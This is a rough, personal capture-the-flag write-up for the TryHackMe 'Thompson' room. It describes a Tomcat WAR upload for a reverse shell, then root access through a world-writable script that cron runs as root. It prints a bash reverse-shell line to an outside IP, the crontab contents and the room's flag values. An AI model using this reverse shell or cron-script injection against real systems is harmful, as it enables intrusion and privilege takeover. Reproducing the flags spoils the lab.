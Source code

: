 # Report Thompson 
[![Header.png](./assets/Header.png)](https://tryhackme.com/r/room/bsidesgtthompson)
### NEW learning 
- msfpayload 
This is the feature of metasploit that is helpful to create a payload with the 
options set up. such as LHOSTS, LPORT etc.
We can create executables of different formates based on the target server. 


### Tomcat:
It is a webserver that is used to host java based websites.
This server there is somewhere an option to opload a war file.


once the exploit is uploaded, the we open the '/exploit' to connect to reverse shell
we get to see that there is an user called jack and has the user.txt

Once we had access to the reverse shell. we are now able to login using the tomcat
but we have the ssh open port lets see something is possible using ssh

### Into Jacks home
In the /home/jack, there are the files as listed below

```bash
ls -l
total 12
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
-rw-r--r-- 1 root root 39 Dec 26 09:22 test.txt
-rw-rw-r-- 1 jack jack 33 Aug 14  2019 user.txt
```
The id.sh is executing and putting the id output into the test.txt and in the same way we add the code.
 
```bash
echo "cp /root/root.txt /home/jack/root.txt" >> id.sh
```
### Now we execute the code 
Maybe jack has enough previlages to copy the file from the root is one reason since the file is hetting copied to the current directory after runnin `id.sh` in the terminal.
[CLARIFIED BELOW]
Now we can see the contents of the file.
Here are the contents:

```bash
ls
id.sh
root.txt
test.txt
user.txt


ls -l
total 16
-rwxrwxrwx 1 jack jack 64 Dec 26 09:32 id.sh
-rw-r--r-- 1 root root 33 Dec 26 09:48 root.txt
-rw-r--r-- 1 root root 39 Dec 26 09:48 test.txt
-rw-rw-r-- 1 jack jack 33 Aug 14  2019 user.txt


cat user.txt
39400c90bc683a41a8935e4719f181bf


cat root.txt
d89d5391984c0450a95497153ae7ca3a

```
### CLARIFICATION
Here is the clarification i have got after checking a writeup.
There is a linux tool software that automatically executes a command based on the frequence and the tool called `corntab`.
Here also the same scenirio has happened. The software is running in the background called as corntab and it executes everyminute the id.sh
Here is the cornpeas output log info
```bash
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh

```
So we can clearly see that every minute the code id.sh in `/home/jack` will be executed by the root user.
we no need to execute it.
__Since the `corntab` is executing it using the root previlages, the `id` in the `test.txt` is root.__

- Now i will try to add a reverse shell bash script
```bash
$echo "bash -i >& /dev/tcp/10.17.2.145/4444 0>&1" >> id.sh

$cat id.sh
#!/bin/bash
id > test.txt
cp /root/root.txt /home/jack/root.txt
bash -i >& /dev/tcp/10.17.2.145/4444 0>&1

And i got the shell after a minute since it executes automatically
The screenshot in the same directory shows it.

```
You can use `linPEAS` to detect this. [PRovided you have access to ssh account]
```bash
scp -P 22 /path/to/linPEAS.sh username@IP:/path/to/dest/to/save/linPEAS.sh
```
This is helpless in this task unless we get access to the ssh credentials.
#### References 
[url]("https://bobloblaw321.wixsite.com/website/post/tryhackme-thompson")
